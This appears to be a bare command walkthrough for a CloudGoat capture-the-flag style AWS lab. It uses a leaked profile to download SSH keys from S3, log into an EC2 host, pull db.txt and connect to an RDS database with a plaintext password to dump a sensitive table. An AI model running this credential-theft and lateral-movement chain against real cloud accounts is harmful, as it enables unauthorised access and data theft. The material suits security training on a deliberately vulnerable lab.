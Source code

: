 `aws configure --profile mcduck`

`aws s3 ls --profile mcduck`

`aws s3 ls s3://<bucket> --recursive --profile mcduck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile mcduck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile mcduck`

`aws ec2 describe-instances --profile mcduck --region us-east-1`

`Look for machine with KeyName of cg-ec2-key-pair-rce_web_app and note down the Public IP Address`

`chmod 400 cloudgoat`

`ssh -i cloudgoat ubuntu@<ec2_public_ip>

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat`

`\dt`

`select * from sensitive_information;`
